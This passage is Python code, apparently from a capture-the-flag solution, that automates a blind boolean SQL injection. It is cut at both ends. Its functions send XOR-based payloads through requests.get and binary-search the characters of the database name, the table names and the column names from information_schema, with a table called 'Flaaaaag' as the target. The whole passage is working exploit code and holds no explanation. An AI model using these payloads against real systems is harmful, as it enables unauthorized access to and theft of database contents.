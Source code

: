 ```python
    for i in range(1, 5): # 因为数据库长度为4
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr(database(),{i},1))<{mid})"
            # print(tmp_url, low, high)
            resp = requests.get(tmp_url, timeout=8)
            if "NO! Not this! Click others~~~" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        database += chr(mid - 1)
    print(f"Database is: {database}")
    
    
def get_tables_length():
    """ 获取表名长度 """
    for i in range(20):
        tmp_url = f"{url}0^((select(length(group_concat(table_name)))from(information_schema.tables)where(table_schema='geek'))={i})"
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if "NO! Not this! Click others~~~" in resp.text:
            print(f"Table length is: {i}")
            break
        
def get_tables():
    """ 获取表名 """
    tables = ''
    for i in range(1, 17): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),{i},1))<{mid})"
            print(tmp_url, low, high)
            resp = requests.get(tmp_url, timeout=8)
            if "NO! Not this! Click others~~~" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        tables += chr(mid - 1)
        print(tables)
    print(f"Tables is: {tables}")
    
    
def get_column_length(table_name='Flaaaaag'):
    """ 判断列名长度 """
    for i in range(40):
        tmp_url = f"{url}0^((select(length(group_concat(column_name)))from(information_schema.columns)where(table_name='{table_name}'))={i})"
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if "NO! Not this! Click others~~~" in resp.text:
            print(f"Column length is: {i}")
```